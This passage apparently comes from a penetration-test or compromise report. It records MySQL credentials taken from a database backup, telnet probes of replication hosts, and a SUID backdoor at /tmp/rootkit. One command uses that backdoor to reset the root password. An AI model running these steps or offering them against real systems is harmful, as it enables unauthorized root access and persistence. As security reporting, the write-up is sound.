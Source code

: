 3) **MySQL Replication Network Topology**
- Credentials from `/backup/db.sql.gz`:
  ```sql
  -- users table
  username: admin_db_user
  password: plaintext_password
  ````
- Telnet Validation Results:
  - `telnet 192.168.x.x 3306`: Connected (MySQL slave accessible)
  - `telnet 192.168.y.y 3306`: Connection refused
  - `telnet 192.168.z.z 3306`: Connected
- MySQL Response Header:
  `5.7.34-0ubuntu0.18.04.1-log` (replication slave version)

4) **Root Persistence Mechanisms**
- SUID Backdoor Analysis:
  - Path: `/tmp/rootkit`
  - Execution Privileges: Any user can execute as root
  - Verification Command:
    `find /tmp -perm -u=s -type f 2>/dev/null`
    Output includes `/tmp/rootkit` with SUID bit set
- Persistence Validation:
  ```bash
  /tmp/rootkit -c 'echo "root:pwned" | chpasswd'
  ````
- HTTP Response Proof (admin/config access):
  `HTTP/1.1 200 OK` after bypassing login form with DB credentials